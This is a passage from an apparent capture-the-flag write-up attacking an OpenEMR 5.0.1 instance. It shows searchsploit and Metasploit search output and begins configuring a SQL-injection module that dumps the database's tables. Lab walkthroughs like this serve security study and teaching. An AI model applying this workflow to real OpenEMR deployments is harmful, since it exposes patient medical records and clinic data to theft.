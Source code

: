 ![Page under construction](/media/2020.10/cache_05.png){: .image-process-article-image}

We use `searchsploit` in order to find an exploit for our version but all of
them are authenticated.

    :::text
    kali@kali:~/$ searchsploit openemr  5.0.1 
    ------------------------------------------------------------ ---------------------------------
    Exploit Title                                              |  Path
    ------------------------------------------------------------ ---------------------------------
    OpenEMR 5.0.1.3 - (Authenticated) Arbitrary File Actions    | linux/webapps/45202.txt
    OpenEMR < 5.0.1 - (Authenticated) Remote Code Execution     | php/webapps/45161.py
    OpenEMR < 5.0.1 - (Authenticated) Remote Code Execution     | php/webapps/45161.py
    ------------------------------------------------------------ ---------------------------------
    Shellcodes: No Results

We launch metasploit and search of openEMR exploit. We found a SQL injection
dump exploit.

    :::text
    msf5 > search openemr

    Matching Modules
    ================

      #  Name                                             Disclosure Date  Rank       Check  Description
      -  ----                                             ---------------  ----       -----  -----------
      0  auxiliary/sqli/openemr/openemr_sqli_dump         2019-05-17       normal     Yes    OpenEMR 5.0.1 Patch 6 SQLi Dump
      1  exploit/unix/webapp/openemr_sqli_privesc_upload  2013-09-16       excellent  Yes    OpenEMR 4.1.1 Patch 14 SQLi Privilege Escalation Remote Code Execution
      2  exploit/unix/webapp/openemr_upload_exec          2013-02-13       excellent  Yes    OpenEMR PHP File Upload Vulnerability


We configure the different option, especially the `vhost` and run the exploit.
We quickly get some result and it start to dump the first table out of 295… 295!
This will take forever.

    :::text
    msf5 auxiliary(sqli/openemr/openemr_sqli_dump) > show options

    Module options (auxiliary/sqli/openemr/openemr_sqli_dump):
